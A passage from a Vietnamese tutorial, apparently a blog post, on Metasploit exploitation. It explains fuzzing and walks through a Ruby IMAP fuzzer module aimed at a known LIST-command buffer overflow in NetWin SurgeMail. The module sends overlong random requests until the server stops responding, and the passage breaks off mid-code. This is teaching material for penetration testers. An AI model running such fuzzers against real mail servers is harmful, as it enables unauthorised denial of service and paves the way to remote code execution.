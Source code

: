 ![](https://images.viblo.asia/c74ff2b3-bb74-4a77-a3fb-afb4e607d250.jpg)

Tiếp nối những gì đã tìm hiểu được ở [phần 1 ](https://viblo.asia/p/ky-thuat-khai-thac-lo-hong-bao-mat-web-tren-metasploit-framework-p1-4dbZNJw8ZYM).  Hôm  nay chúng ta sẽ tiếp tục cùng nhau phân tích một mã khai thác đơn giản trên Metasploit Framework .

## 6. Phân tích module thực hiện fuzzing

Fuzzing là một kĩ thuật dùng để phát hiện lỗi phần mềm bằng cách tự động hoặc bán tự động. Fuzzing sẽ liên tục thử các dữ liệu đầu vào cho các chương trình với các dữ liệu được tạo ra ngẫu nhiên và không hợp lệ như: dữ liệu quá dài, dữ liệu quá ngắn, các giá trị đặc biệt, các kí tự đặc biệt, … Quá trình này nhằm phát hiện các lỗi mà chương trình chưa kiểm soát. Từ đó phát hiện ra các điểm yếu có thể tấn công của ứng dụng.  

Trong thực tế đối với việc kiểm thử các ứng dụng web, khi sử dụng sẽ thường xuyên gặp các ứng dụng có module MSF nào khả dụng. Khi gặp các tình huống như vậy, người kiểm thử sẽ thử cố gắng phát hiện ra các lỗ hổng và tự tạo ra các module khai thác cho chúng. Thông thường để phát hiện ra các lỗ hổng này có thể sử dụng kĩ thuật “fuzzing”. 

Khi thực hiện kĩ thuật này, người tấn công sẽ liên tục gửi những dữ liệu ngẫu nhiên, không hợp lệ, bất ngờ hoặc không đúng theo định dạng ứng dụng yêu cầu. Sau đó dựa vào các trường hợp ngoại lệ hoặc các sự cố có thể xảy ra với ứng dụng. Người kiểm thử sẽ có thể tìm thấy lỗ hổng và phát triển mã khai thác cho lỗ hổng này. 

Trong ví dụ dưới đây sẽ thực hiện việc “fuzzing” để xác định lỗ hổng trong ứng dụng “*NetWin SurgeMail 3.8k4-4*”. Lỗ hổng này được xác định bởi “Matteo Memelli (ryujin)” và có sẵn tại  https://exploit-db.com/exploits/5259. 

Lỗ hổng này khiến cho ứng dụng không thể sử lý các lệnh “LIST” quá dài dẫn đến tràn bộ đệm cho phép kẻ tấn công thực thi mã từ xa.
Trước khi viết mã khai thác cần xác định nơi mà lỗ hổng tồn tại trong ứng dụng. Đây là một đoạn mã đơn giản để thực hiện “fuzzer” cho giao thức IMAP:

```ruby
require 'msf/core' 
class Metasploit3 < Msf::Auxiliary
include Msf::Exploit::Remote::Imap 
include Msf::Auxiliary::Dos        
def initialize                
	super(                       
		'Name'           => 'Simple IMAP Fuzzer',                        
		'Description'    => %q{                                                
		An example of how to build a simple IMAP fuzzer.                                                
		Account IMAP credentials are required in this fuzzer.},                        
		'Author'         => ['ryujin'],                        
		'License'        => MSF_LICENSE,                        
		'Version'        => '$Revision: 1$'                
	)        
end
def fuzz_str() 
	return Rex::Text.rand_text_alphanumeric(rand(1024))
end       
def run()                
	srand(0)                
	while (true) 
		connected = connect_login()                       
	if not connected     
	print_status("Host is not responding - this is G00D ;)")
	break 
	end
	print_status("Generating fuzzed data...") 
	fuzzed = fuzz_str() 
	print_status("Sending fuzzed data, buffer length = %d" % fuzzed.length) 
	req = '0002 LIST () "/' + fuzzed + '" "PWNED"' + "\r\n" 
	print_status(req)
```